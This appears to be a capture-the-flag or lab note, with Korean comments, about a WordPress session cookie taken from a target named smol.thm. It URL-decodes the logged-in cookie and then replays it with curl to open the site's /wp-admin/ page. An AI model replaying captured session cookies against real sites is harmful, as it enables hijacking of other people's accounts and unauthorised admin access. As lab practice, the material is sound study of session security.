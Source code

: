 # 쿠키 원본 -> 총 2개의 key value

Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# 디코딩

echo "wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read()))"

# 결과 -> 분석용

wpuser|1753668949|cPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv|ccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# curl

curl -i -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/
